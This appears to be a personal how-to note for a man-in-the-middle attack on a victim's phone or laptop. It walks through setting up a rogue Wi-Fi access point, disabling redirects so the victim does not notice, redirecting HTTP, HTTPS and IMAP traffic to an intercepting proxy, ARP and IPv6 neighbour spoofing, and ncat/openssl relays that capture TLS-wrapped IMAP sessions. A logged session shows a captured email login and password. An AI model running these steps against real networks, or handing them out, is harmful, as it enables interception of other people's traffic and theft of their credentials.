 # basics (put in a wifi stick and set up an access point
pamcan -S hostapd dnsmasq  
cp hostapd.conf /etc/hostapd/hostapd.conf  
cp dnsmasq.conf /etc/dnsmasq.conf  

ip a add 10.10.0.1/24 dev wlan0  
hostapd hostapd.conf  
dnsmasq --test # syntax check  
systemctl start dnsmasq  

#### enable routing
sysctl -w net.ipv4.ip_forward=1  
sysctl -w net.ipv6.conf.all.forwarding=1  

### don't tell the victim: there is a faster route
sysctl -w net.ipv4.conf.all.send_redirects=0  


# firewall redirects
iptables -t nat -F PREROUTING  
ip6tables -t nat -F PREROUTING  

##### burp must listen on 0.0.0.0 (127.0.0.1 is not enough; todo: try  -j DNAT --to-destination 127.0.0.1:xxxx)  
iptables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 80 -j REDIRECT --to-port 8080  
iptables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 443 -j REDIRECT --to-port 8080  
iptables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 993 -j REDIRECT --to-port 993  
\#iptables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 993 -j DNAT --to-destination 127.0.0.1:993  

##### burp must listen on :: (::1 is not enough)
ip6tables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 80 -j REDIRECT --to-port 8080  
ip6tables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 443 -j REDIRECT --to-port 8080  
ip6tables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 993 -j REDIRECT --to-port 993  
\#ip6tables -t nat -A PREROUTING -i wlp3s0 -p tcp --dport 993 -j DNAT --to-destination ::1:993  


# if you are not the router: arp spoof
#### v4
sudo arpspoof -i <interface> -c both -t <victim> <router>  
sudo arpspoof -i <interface> -c both -t <router> <victim>  

#### v6
get default ip: ip -6 route get ::  
sudo fake_advertise6 -r -w 2 wlp3s0 <fe80::of::gateway>  

kmille@linbox hacktheworld% pacman -Qo /usr/bin/fake_advertise6  
/usr/bin/fake_advertise6 is owned by thc-ipv6 3.6-1  


### Debugging
install and use termux on the android phone  
    - watch ip n or watch arp -n  
    - curl -4 heise.de
    - curl -6 heise.de
install and use termux on the android phone  
Wireshark filter on attacking machine:  
    - ip.addr == $(dig -short heise.de ) or ipv6.addr == $(dig -short heise.de aaaa)

#### Imap
- Burp/mitmproxy only support http
- you can do it with netcat
    - http: sudo ncat --ssl --ssl-cert server.crt --ssl-key server.key --sh-exec "openssl s_client -quiet -connect heise.de:443 | tee -a ncat.log" -kl 127.0.0.1 443
    - imap: sudo ncat -o ncat2.log --ssl --ssl-cert server.crt --ssl-key server.key --sh-exec "openssl s_client -quiet -connect upstream-mailserver:993" -kl :: 993
    - ncat2.log will contain the IMAP commands (including the password)
```
5 OK Search completed (0.001 + 0.000 secs).
6 UID FETCH 2,1 (UID FLAGS)
* 1 FETCH (UID 1 FLAGS (\Answered \Seen junk))
* 2 FETCH (UID 2 FLAGS (\Seen junk))
6 OK Fetch completed (0.001 + 0.000 secs).
1 NO [AUTHENTICATIONFAILED] Authentication failed.
1 NO [AUTHENTICATIONFAILED] Authentication failed.
2 LOGIN "mail@androidloves.me" "tifhddjfu"
2 LOGIN "mail@androidloves.me" "tifhddjfu"
7 NOOP
7 OK NOOP completed (0.001 + 0.000 secs).
8 EXAMINE "Archives.2018"
* OK [CLOSED] Previous mailbox closed.
* FLAGS (\Answered \Flagged \Deleted \Seen \Draft nonjunk)
* OK [PERMANENTFLAGS ()] Read-only mailbox.
* 1 EXISTS
* 0 RECENT
* OK [UIDVALIDITY 1484765072] UIDs valid
* OK [UIDNEXT 4] Predicted next UID
8 OK [READ-ONLY] Examine completed (0.000 + 0.000 secs).
9 UID SEARCH 1:1 NOT DELETED
```

# TODO
 - read this carefully: https://security.stackexchange.com/questions/33374/whats-an-easy-way-to-perform-a-man-in-the-middle-attack-on-ssl
 - Understand this fifo magic which does not work for me now
    - mkfifo request response
    - openssl s_server -quiet -no_ssl2 -cipher AES128-SHA  -accept 443 -cert fake.crt -key fake.key  < response | tee -a request
    - openssl s_client -quiet -connect www.server.com:443 < request  | tee -a response
- checkout https://www.stunnel.org/
- and https://github.com/jrmdev/mitm_relay


